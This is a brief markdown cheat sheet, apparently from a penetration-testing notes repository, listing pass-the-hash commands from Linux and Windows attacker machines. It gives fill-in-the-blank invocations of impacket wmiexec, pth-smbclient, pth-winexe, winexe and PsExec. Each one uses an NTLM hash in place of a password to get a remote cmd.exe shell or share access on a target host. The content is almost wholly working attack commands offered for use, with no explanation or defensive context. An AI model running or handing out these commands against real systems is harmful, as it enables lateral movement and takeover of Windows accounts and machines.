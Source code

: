 # linux attacker

## pass the hash (wmiexec)

```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes <lmhash>:<ntlmhash> <user>@<rhost> cmd.exe
impacket-wmiexec -hashes <lmhash>:<ntlmhash> user@$rhost
```

## pass the hash (smb; pth-smbclient)

```bash
pth-smbclient //<rhost>/<share(c$)> -U <PCNAME>/<user>%<lmhash>:<ntlmhash>
```

## pass the hash (pth-winexe)

```bash
pth-winexe -U <Administrator/user>%<lmhash>:<ntlmhash> //<rhost> cmd.exe
```

## pass the hash (winexe)

```bash
winexe -U '<administrator/user>%<lmhash>:<ntlmhash>' //<rhost> cmd.exe
```

# windows attacker

## pass the hash (psexec.exe)

```cmd
.\PsExec.exe -accepteula -u <administrator/user> -p <lmhash>:<ntlmhash> cmd.exe
```
